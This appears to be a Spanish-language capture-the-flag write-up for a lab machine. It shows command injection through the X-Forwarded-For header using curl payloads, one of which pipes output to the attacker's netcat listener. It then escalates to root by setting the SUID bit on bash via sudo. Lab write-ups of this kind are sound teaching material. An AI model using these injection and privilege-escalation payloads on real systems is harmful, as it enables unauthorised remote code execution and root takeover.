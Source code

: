 A través de la cabecera `X-Forwarded-For` podemos inyectar un comando, lo primero que vamos a hacer es ponernos en `escucha` con `netcat`

```
# nc -nlvp 443
```

Y seguidamente vamos a `ejecutar` este `payload`

```
# curl -X POST -H "X-Forwarded-For: ;whoami | nc 10.10.16.15 443;" -H "Cookie: PHPSESSID=rnotnlb104dla39p1h90029lse" -d 'flag=UHC{F1rst_5tep_2_Qualify}' http://10.129.96.75/challenge.php -L
```

Lo que recibimos en nuestro equipo es lo siguiente, tenemos un `RCE` (Remote Code Execution)

```
# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.96.75] 40308
www-data
```

Según esto podemos `ejecutar` como `www-data` cualquier `comando` como el usuario `root`

```
# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.96.75] 40320
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

Le damos permisos `SUID` a la `bash`

```
# curl -X POST -H "X-Forwarded-For: ;sudo chmod u+s /usr/bin/bash;" -H "Cookie: PHPSESSID=rnotnlb104dla39p1h90029lse" -d 'flag=UHC{F1rst_5tep_2_Qualify}' http://10.129.96.75/challenge.php -L 
```

Al tener la `bash` permisos `SUID` podemos ejecutarla como el propietario, es decir, `root`

```
uhc@union:/var/www/html$ ls -l /usr/bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /usr/bin/bash
uhc@union:/var/www/html$ bash -p
bash-5.0# whoami
root
```
